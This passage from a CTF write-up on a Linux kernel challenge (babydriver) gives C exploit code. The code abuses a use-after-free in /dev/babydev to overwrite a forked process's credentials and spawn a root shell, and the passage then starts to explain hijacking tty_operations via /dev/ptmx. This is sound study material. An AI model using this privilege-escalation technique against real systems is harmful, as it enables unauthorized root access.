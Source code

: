 ```c
#include <stdint.h>
typedef unsigned int uint;
void UAF()
{
    int f1 = open("/dev/babydev",2);
    int f2 = open("/dev/babydev",2);
    ioctl(f2,0x10001,0xa8); 
    close(f2);
    if(!fork())
    {   
        char buf[0x100]={0};
        write(f1,buf,28);
        system("/bin/sh");
    }
    wait(NULL);
}
int main()
{
    UAF();
}
```

# 0x04 Solution II 
This is a more general and useful solution, for kernel UAF pwn, `/dev/ptmx` is a good candidate to exploit because there is a cool element in `tty_stuct` named `const struct tty_operations *ops;`. You can find the source code of `tty_struct` at this [link][4] and `tty_operations` at this [link][5]. 

It's a struct about the function points.
```c
struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
            struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int  (*write_room)(struct tty_struct *tty);
    int  (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
            unsigned int set, unsigned int clear);
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations